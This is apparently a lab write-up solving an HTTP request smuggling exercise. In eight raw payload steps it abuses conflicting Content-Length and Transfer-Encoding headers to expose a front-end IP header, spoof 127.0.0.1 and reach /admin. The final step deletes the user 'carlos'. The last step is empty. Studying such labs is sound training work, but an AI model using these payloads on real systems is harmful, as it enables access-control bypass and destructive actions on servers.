










# Exploiting HTTP request smuggling to reveal front-end request rewriting

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## There's an admin panel at `/admin`, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.

## To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user `carlos`

---

---

### **\_\_\_\_**

step 1

set payload

```
Transfer-Encoding: chunked

userid=test
```



### step2

```
Content-Length: 21
Transfer-Encoding: chunked

b
userid=test
0


```



### step3

```
Content-Length: 20
Transfer-Encoding: chunked

b
userid=test
0


```



### step4

```
b
userid=test
0

POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Host: 127.0.0.1

userid=test
```





### step5

`Content-Length: 11
`search=test`



### step6

```
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```



### step7

```
Content-Length: 154
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
X-AOSTLB-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
connection: closed

search=test

```



### step8

```
Content-Length: 177
Transfer-Encoding: chunked

0

POST /admin/delete?username=carlos HTTP/1.1
X-AOSTLB-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
connection: closed

search=test

```



### step9


